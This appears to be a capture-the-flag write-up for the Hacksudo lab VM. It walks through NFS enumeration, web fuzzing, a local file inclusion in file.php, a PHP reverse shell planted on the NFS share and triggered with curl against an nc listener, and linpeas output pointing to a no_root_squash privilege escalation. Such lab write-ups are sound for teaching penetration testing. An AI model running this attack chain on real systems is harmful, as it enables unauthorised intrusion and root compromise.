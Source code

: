 # Hacksudo (Creatigon Basic Pentest)

---

## Enumeration

- Nmap initial

1. 80/http Apache httpd 2.4.46 ((Ubuntu))
2. 111/rpcbind 2-4 (RPC #100000)
3. 2049/nfs_acl 3 (RPC #100227)

- Enumerate nfs

```sh
$ showmount -e $IP
Export list for 10.0.2.16:
/mnt/nfs *

$ mkdir /tmp/hack
$ sudo mount $IP:/mnt/nfs /tmp/hack
$ cd /tmp/hack
$ ls -la
# find flag1.txt
```

- nothing to find more and
- Enumerate http
- fuzzing

```sh
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt --hc 404 http://$IP/FUZZ.php
```

- find `file` and `info` php files
- PHP Version 7.4.9
- file.php may be external file calling and try to exploit LFI

```sh
─$ ffuf -u http://10.0.2.16/file.php?FUZZ=/etc/passwd -w /usr/share/wordlists/dirb/common.txt -fs 238
```

- found `file` parameter has LFI vuln

![](images/2023-03-01-01-46-59.png)

```
http://10.0.2.16/file.php?file=/mnt/nfs/flag1.txt
```

- show the file content in nfs file share
- add php reverse shell as shell.php in /mnt/nfs/ via /tmp/hack folder with sudo access
- listen at attacker machine with nc and in another terminal send request to activate shell.php and get the shell with `www-data` user

```sh
nc -vnlp 4242
curl http://$IP/file.php?file=/mnt/nfs/shell.php
```

- add linpeas.sh file in /mnt/nfs
- with www-data user access, run linpeas.sh
- Interesting with linpeas results

```
Vulnerable to CVE-2021-4034

-rw-r--r-- 1 root root 426 Mar 16  2021 /etc/exports
/mnt/nfs       *(rw,no_root_squash)

```

- from nfs share folder, from attacker machine terminal, create new folder and change access to 777
- from www-data, copy the /bin/bash into nfs shared folder
- from attacker machine terminal

![](images/2023-03-01-02-40-22.png)
